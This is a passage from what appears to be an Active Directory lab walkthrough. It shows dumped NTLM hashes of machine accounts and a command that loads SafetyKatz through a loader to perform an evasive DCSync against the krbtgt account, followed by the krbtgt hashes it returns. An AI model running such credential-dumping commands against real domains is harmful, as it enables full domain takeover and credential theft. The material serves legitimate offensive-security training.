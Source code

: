 ```

RID  : 00000455 (1109)
User : DCORP-MSSQL$
LM   :
NTLM : b205f1ca05bedace801893d6aa5aca27

RID  : 00000456 (1110)
User : DCORP-SQL1$
LM   :
NTLM : 3686dfb420dc0f9635e70c6ca5875b49

RID  : 0000106a (4202)
User : DCORP-STDADMIN$
LM   :
NTLM : 9c7374e4e73a2cdaf014ab6da104ba54

RID  : 000050c9 (20681)
User : DCORP-STD861$
LM   :
NTLM : 83dd4eea79636515a774c6e59dbc0071

RID  : 000050ca (20682)
User : DCORP-STD862$
LM   :
NTLM : 24ca16461638142f7ab28f86e26f8144

RID  : 000050cb (20683)
User : DCORP-STD863$
LM   :
NTLM : fe6a068e0679afacfd5fe4a7652d2ca3

RID  : 000050cc (20684)
User : DCORP-STD864$
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

NTLM : `4e9815869d2090ccfca61c1fe0d23986`

To get NTLM hash and AES keys of the krbtgt account, we can use the DCSync attack. Run the below command from process running as Domain Admin on the student VM:

```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

```powershell
Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/11/2022 10:59:41 PM
Object Security ID   : S-1-5-21-719815819-3726368948-3917688648-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986
    ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
    lm  - 0: ea03581a1268674a828bde6ab09db837

```
